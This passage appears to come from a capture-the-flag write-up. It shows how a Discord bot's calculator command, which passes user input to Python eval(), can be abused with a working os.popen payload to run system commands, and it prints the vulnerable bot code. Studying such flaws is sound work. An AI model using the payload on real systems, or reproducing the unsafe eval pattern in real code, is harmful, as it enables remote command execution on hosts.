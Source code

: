 Since we know the Discord bot uses the `!calculator 1+1` command, which is evaluated using the `eval()` function, we can abuse this by importing the `os` module and calling a function of our choice to execute system commands on the host system. For example, we can execute the following command:
```python
!calculator __import__('os').popen('whoami').read()
```

This exploits the `eval()` function to import the `os` module, use `popen()` to execute the `whoami` system command, and then return the result, which will reveal the username of the current system user (i.e, `bot_user` if you check `Dockerfile`).
![](assets/Pasted%20image%2020241207140355.png)

If we check the source code of the bot, we can see the vulnerable code that directly passes the user's input to the `eval()` function:
```python
@bot.command()
async def calculator(ctx, *, expression):
    data = load_data()
    user_id = str(ctx.author.id)
    if user_id not in data["users"] or not data["users"][user_id].get(
        "calculator", False
    ):
        await ctx.send("You don't own calculator bro.")
        return
    try:
        result = eval(expression)
        await ctx.send(f"The result of `{expression}` is `{result}`.")
    except Exception as e:
        await ctx.send(f"Error in calculation! :warning:")
```

We can even read files on the system like this: